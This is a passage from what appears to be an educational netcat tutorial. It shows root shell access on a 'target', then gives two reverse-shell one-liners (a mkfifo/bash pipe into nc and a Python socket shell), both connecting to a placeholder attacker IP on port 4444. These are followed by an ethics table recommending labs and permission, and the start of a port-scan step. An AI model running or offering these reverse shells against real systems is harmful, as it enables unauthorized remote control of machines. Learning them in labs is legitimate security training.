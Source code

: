 You now get access like:

```bash
whoami
root
uname -a
Linux target 5.10.0-23-kali x86_64 ...
```

You’re now **inside the target’s shell**.

---

## 🚫 Bypassing `-e` Restrictions (Advanced)

If the system blocks `-e`, you can:

**Linux Bash Fallback:**

```bash
rm /tmp/f; mkfifo /tmp/f
cat /tmp/f | /bin/bash -i 2>&1 | nc <attacker-ip> 4444 > /tmp/f
```

**Python Reverse Shell:**

```bash
python3 -c 'import socket,subprocess,os;
s=socket.socket(); s.connect(("attacker-ip",4444));
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);
subprocess.call(["/bin/bash","-i"])'
```

---

## 🔒 How to Stay Ethical

| Rule                         | Description                             |
|------------------------------|-----------------------------------------|
| 🔐 Only in private labs      | Never try on real devices or public IPs |
| 🧪 Use CTF platforms         | TryHackMe, Hack The Box, VulnHub         |
| ⚠️ Ask for permission        | Never test networks you don’t own        |
| 📸 Document responsibly       | Mask IPs, usernames, passwords           |

---

## 🧪 Network Diagnostics Workflow (Use in Internship)

1. Scan open ports:
   ```bash
   nc -zv 10.10.10.1 1-1000
   ```
